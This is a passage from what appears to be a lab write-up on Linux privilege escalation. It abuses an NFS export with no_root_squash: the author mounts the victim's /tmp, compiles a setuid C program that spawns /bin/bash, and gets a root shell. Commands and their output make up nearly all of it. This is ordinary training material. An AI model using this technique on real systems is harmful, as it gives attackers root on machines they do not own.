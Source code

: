 ```console
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```
{: .nolineno }

From our Kali :

```console
root@ip-10-10-9-130:~/Desktop# showmount -e 10.10.3.74
Export list for 10.10.3.74:
/tmp *
root@ip-10-10-9-130:~/Desktop# mkdir /tmp/1
root@ip-10-10-9-130:~/Desktop# mount -o rw,vers=2 10.10.3.74:/tmp /tmp1
mount.nfs: mount point /tmp1 does not exist
root@ip-10-10-9-130:~/Desktop# mount -o rw,vers=2 10.10.3.74:/tmp /tmp/1
root@ip-10-10-9-130:~/Desktop# echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
root@ip-10-10-9-130:~/Desktop# gcc /tmp/1/x.c -o /tmp/1/x
/tmp/1/x.c: In function \u2018main\u2019:
/tmp/1/x.c:1:14: warning: implicit declaration of function \u2018setgid\u2019 [-Wimplicit-function-declaration]
 int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }
              ^~~~~~
/tmp/1/x.c:1:25: warning: implicit declaration of function \u2018setuid\u2019 [-Wimplicit-function-declaration]
 int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }
                         ^~~~~~
/tmp/1/x.c:1:36: warning: implicit declaration of function \u2018system\u2019 [-Wimplicit-function-declaration]
 int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }
                                    ^~~~~~
root@ip-10-10-9-130:~/Desktop# chmod +s /tmp/1/x
```
{: .nolineno }

From the victim machine ;

```console
TCM@debian:~$ /tmp/x
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:~# 
```
{: .nolineno }

No Answer